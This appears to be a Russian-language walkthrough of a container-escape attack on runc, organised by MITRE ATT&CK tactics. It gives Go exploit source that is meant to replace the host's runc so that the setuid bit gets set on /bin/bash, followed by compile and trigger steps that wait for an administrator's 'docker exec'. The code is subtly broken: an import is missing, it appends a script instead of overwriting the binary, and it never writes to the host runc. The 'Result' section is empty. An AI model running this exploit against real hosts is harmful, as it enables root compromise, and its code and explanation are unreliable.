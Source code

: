 ##### [TA0004] – Privilege Escalation  
**Шаг 1: Создание эксплоита**  
```bash
cat > exploit.go << 'EOF'
package main
import (
  "os"
  "syscall"
  "unsafe"
)

func main() {
  // 1. Открытие хост-бинарника runc
  fd, _ := os.OpenFile("/proc/self/exe", os.O_RDONLY, 0777)
  
  // 2. Создание in-memory файла
  memfd_name := "" // Анонимный файл
  memfd, _, _ := syscall.Syscall(syscall.SYS_MEMFD_CREATE, uintptr(unsafe.Pointer(&memfd_name)), 0, 0)
  
  // 3. Копирование runc в память
  buf := make([]byte, 1024)
  for {
    n, _ := fd.Read(buf)
    if n <= 0 { break }
    syscall.Write(int(memfd), buf[:n])
  }
  
  // 4. Подмена содержимого на шелл-код
  shellcode := "#!/bin/sh\nchmod 4755 /bin/bash"
  syscall.Write(int(memfd), []byte(shellcode))
  
  // 5. Запуск подмененного бинарника
  syscall.Exec(fmt.Sprintf("/proc/self/fd/%d", memfd), []string{""}, os.Environ())
}
EOF

# Компиляция
go build -o exploit exploit.go
```

**Механизм работы:**  
1. Эксплоит открывает `/proc/self/exe` (ссылка на runc хоста).  
2. Создает анонимный in-memory файл через `memfd_create()`.  
3. Копирует оригинальный runc в память.  
4. Перезаписывает начало файла шелл-кодом.  
5. При следующем вызове `docker exec` выполнится модифицированный код.  

---

##### [TA0002] – Execution  
**Активация эксплоита:**  
```bash
# Запуск эксплоита внутри контейнера
./exploit

# Ожидание действий администратора
echo "Ожидаем вызова 'docker exec'..."
```
**Действия администратора (на хосте):**  
```bash
docker exec -it vulnerable_container sh
```
**Результат:**  
```bash
```